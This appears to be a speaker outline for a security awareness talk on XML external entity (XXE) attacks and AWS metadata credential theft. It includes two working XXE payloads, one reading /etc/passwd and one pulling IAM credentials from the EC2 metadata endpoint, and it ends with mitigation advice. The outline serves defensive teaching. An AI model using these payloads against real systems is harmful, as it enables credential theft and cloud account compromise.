


# XXE and AWS Compromise

## Outcomes
* People know about XXE
	* And hopefully disable XML entity parsing everywhere
* People know about AWS Metadata endpoint
	* Because it's kinda neat

## Intro
* Ask for show of hands, who knows about
	* XML Entities
	* AWS Metadata endpoint

## Background
* There's an EC2 instance parsing XML
* It is getting pentested

## XML Entities
slide is the example payload below
* Quickly explain XML Entities
* _Pentester notices XML files getting parsed_
	* Tries to steal `/etc/passwd` with XXE
	* Pentest finding: 

**Example payload:**
```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

## AWS Metadata
slide is a recording of `curl 169.254 ...` in an EC2 box
* Quickly explain AWS Metadata endpoint
* Add in the fact that XXE can do HTTP requests
* _Pentester notices server is running in EC2_
	* Uses XXE to get iam role --> `iam/info` 
	* Uses XXE to get creds --> `iam/security-credentials/<role-name>`
	* Pentest finding: 

**Example payload:**
```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/iam-role" >]><foo>&xxe;</foo>
```

## AWS Account Compromise
* Pentester is able to do lots of things with the AWS creds
	* Uses the temporary creds to steal all the data
	* Pentest finding: 

<!-- TODO record AWS metadata demo -->

## Summary
* If you're parsing XML 
* Also limit access from your EC2 instances
	* Principle of least privilege

## Notes
* Most of the content is from this [Netflix blog post](https://medium.com/netflix-techblog/netflix-information-security-preventing-credential-compromise-in-aws-41b112c15179)